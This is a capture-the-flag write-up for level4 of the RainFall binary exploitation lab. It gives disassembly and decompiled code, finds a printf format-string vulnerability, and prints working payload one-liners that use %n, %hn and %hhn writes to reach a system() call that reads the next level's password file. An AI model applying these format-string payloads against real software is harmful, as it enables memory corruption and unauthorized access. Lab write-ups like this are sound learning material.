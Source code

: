 Disassembly of the program using gdb:

```assembly
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret

Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret

Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret
```

Decompiled version from BinaryNinja:

```C
int32_t p(char* arg1)
{
    return printf(arg1);
}

uint32_t n()
{
    void var_20c;
    fgets(&var_20c, 0x200, stdin);
    p(&var_20c);
    uint32_t eax = m;
    if (eax == 0x1025544)
    {
        eax = system("/bin/cat /home/user/level5/.pass");
    }
    return eax;
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    return n();
}
```

This challenge is similar to the previous one in that the use of the printf function seems vulnerable to a format string attack, with the exception that we need to write a 4-byte value to EAX. The use of the %hn formatter (to write 2 bytes) or %hhn formatter (to write 1 byte) seems to be the solution.

From this, we can deduce that we control the input starting from the 12th formatter:

```shell
level4@RainFall:~$ ./level4 
AAAABBBB %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
AAAABBBB b7ff26b0 bffff794 b7fd0ff4 00000000 00000000 bffff758 0804848d bffff550 00000200 b7fd1ac0 b7ff37d0 41414141 42424242 38302520 30252078
```

We can also see from these instructions that we should rewrite the bytes starting from the address `0x8049810`, as from 0x0804848d, the value at address 0x8049810 is loaded into the EAX register:

```assembly
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
```

OK, the same technique works with just a `%n` formatter. I wrote the required value (-4) to the address all at once:

```shell
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'| ./level4
```

We could have also written 2 bytes at a time, for example:

```shell
python -c 'print "\x10\x98\x04\x08" + "\x12\x98\x04\x08" + "%21820d%12$hn" + "%43966d%13$hn"' | ./level4
```

Here, we use the `%hn` formatter, first writing the addresses to write to, while incrementing by addr+2, and then writing the values 2 bytes at a time.

In this solution, you first write the lowest 2 bytes (little endian) to the first address, subtracting 8 for the size of the two addresses. Then, for the higher 2 bytes, subtract the value of the lower bytes. This results in:

- 0x1025544 = 258 21828
- 21828 - 8 = 21820, which gives `%21820d%12$hn`
- 258 - 21828 = -21570 = 43966 as an unsigned 16-bit integer, which gives `%43966d%13$hn`

That's exactly the same logic when writing byte by byte:

```shell
python -c 'print "\x10\x98\x04\x08" + "\x11\x98\x04\x08" + "\x12\x98\x04\x08" + "\x13\x98\x04\x08" + "%52d%12$hhn" + "%17d%13$hhn" + "%173d%14$hhn" + "%255d%15$hhn"' | ./level4
```

You use the `%hhn` formatter, convert the values to decimal, and subtract the value of the previous byte while considering an unsigned result on 8 bits. This applies to all except the first byte, where you subtract the sum of the number of read addresses (4*4). Finally, you apply these values while incrementing each time by addr+1:

0x1025544 = 1 2 85 68 in decimal = 68 85 2 1 in little endian

68 - (4*4) = 52 = `%52d%12$hhn` at address `0x8049810`

85 - 68 = 17 = `%17d%13$hhn` at address `0x8049811`

2 - 85 = 173 = `%173d%14$hhn` at address `0x8049812`

1 - 2 = 255 = `%255d%15$hhn` at address `0x8049813`

Then, you simply retrieve the flag that appeared directly on stdout.
